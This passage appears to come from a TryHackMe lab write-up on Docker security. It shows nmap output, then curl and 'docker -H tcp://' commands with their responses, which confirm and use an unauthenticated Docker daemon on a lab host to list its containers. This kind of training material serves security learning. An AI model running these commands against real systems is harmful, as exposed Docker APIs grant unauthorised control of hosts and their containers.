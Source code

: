 ```
Initiating NSE at 20:51
Completed NSE at 20:51, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 20:51
Completed NSE at 20:51, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 20:51
Completed NSE at 20:51, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 60.71 seconds

```

6.4.2. Confirming vulnerability.
Great! Looks like it's open, we're going to use the curl command to start interacting with the exposed Docker daemon.

Confirming that we can access the Docker daemon:

curl http://10.10.153.100:2375/version

And note that we receive a response will all sorts of data about the host - lovely!

![](https://assets.tryhackme.com/additional/docker-rodeo/dockerapi/curl1.png)

```
┌──(kali㉿kali)-[/etc/docker]
└─$ curl http://10.10.153.100:2375/version    
{"Platform":{"Name":"Docker Engine - Community"},"Components":[{"Name":"Engine","Version":"19.03.13","Details":{"ApiVersion":"1.40","Arch":"amd64","BuildTime":"2020-09-16T17:01:06.000000000+00:00","Experimental":"false","GitCommit":"4484c46d9d","GoVersion":"go1.13.15","KernelVersion":"4.15.0-123-generic","MinAPIVersion":"1.12","Os":"linux"}},{"Name":"containerd","Version":"1.3.7","Details":{"GitCommit":"8fba4e9a7d01810a393d5d25a3621dc101981175"}},{"Name":"runc","Version":"1.0.0-rc10","Details":{"GitCommit":"dc9208a3303feef5b3839f4323d9beb36df0a9dd"}},{"Name":"docker-init","Version":"0.18.0","Details":{"GitCommit":"fec3683"}}],"Version":"19.03.13","ApiVersion":"1.40","MinAPIVersion":"1.12","GitCommit":"4484c46d9d","GoVersion":"go1.13.15","Os":"linux","Arch":"amd64","KernelVersion":"4.15.0-123-generic","BuildTime":"2020-09-16T17:01:06.000000000+00:00"}

```

6.4.3. Execute
We'll perform our first Docker command by using the "-H" switch to specify the Instance to list the containers running docker -H tcp://10.10.153.100:2375 ps

![](https://assets.tryhackme.com/additional/docker-rodeo/dockerapi/docker1.png)

```
┌──(kali㉿kali)-[~/docker_rodeo]
└─$ sudo docker ps -a          
CONTAINER ID   IMAGE                    COMMAND                  CREATED        STATUS                      PORTS     NAMES
b154d1c7b280   blockchain-demo:latest   "docker-entrypoint.s…"   2 months ago   Exited (137) 2 months ago             blockchain-demo-master_blockchain-demo_1
                                                                                     
┌──(kali㉿kali)-[~/docker_rodeo]
└─$ sudo docker -H tcp://10.10.153.100:2375 ps
CONTAINER ID   IMAGE                  COMMAND                  CREATED         STATUS          PORTS                    NAMES
63b932f4d7d2   privileged-container   "/usr/sbin/sshd -D"      23 months ago   Up 10 minutes   0.0.0.0:2244->22/tcp     musing_stonebraker
2b28b54f56f6   namespaces             "/usr/sbin/sshd -D"      23 months ago   Up 10 minutes   0.0.0.0:2255->22/tcp     goofy_diffie
3d8fe1db6635   container-socket       "/usr/sbin/sshd -D"      23 months ago   Up 10 minutes   0.0.0.0:2233->22/tcp     brave_mendel
```